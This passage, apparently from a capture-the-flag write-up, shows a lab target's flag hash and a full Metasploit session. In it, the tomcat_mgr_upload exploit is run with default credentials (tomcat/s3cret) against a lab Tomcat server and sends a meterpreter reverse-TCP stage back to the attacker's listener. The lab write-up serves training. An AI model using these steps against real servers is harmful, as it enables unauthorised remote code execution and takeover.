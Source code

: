 ```
04a8b36e1545a455393d067e772fe90e
```
{% endcode %}

Flags for User and Root are identified.

### msfconsole (with Metasploit Framework)

Metasploit Framework is a tool that identifies systematic vulnerabilities on servers and networks. Works with different operating systems and is open-source.

Type the use command to navigate to the tomcat manager upload http. Set the http password and username, rhosts, rport, lhost, and run. Search for flags by changing directory.&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```
└─# msfconsole                                                                        
                                                  
     ,           ,
    /             \                                                                                             
   ((__---,,,---__))                                                                                            
      (_) O O (_)_________                                                                                      
         \ _ /            |\                                                                                    
          o_o \   M S F   | \                                                                                   
               \   _____  |  *                                                                                  
                |||   WW|||                                                                                     
                |||     |||                                                                                     
                                                                                                                

       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command

msf6 > use multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
httppassword => s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HTTPUSERNAME tomcat
HTTPUSERNAME => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost 10.10.14.5
lhost => 10.10.14.5
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying x33cL8kIeN...
[*] Executing x33cL8kIeN...
[*] Sending stage (58053 bytes) to 10.10.10.95
[*] Undeploying x33cL8kIeN ...
```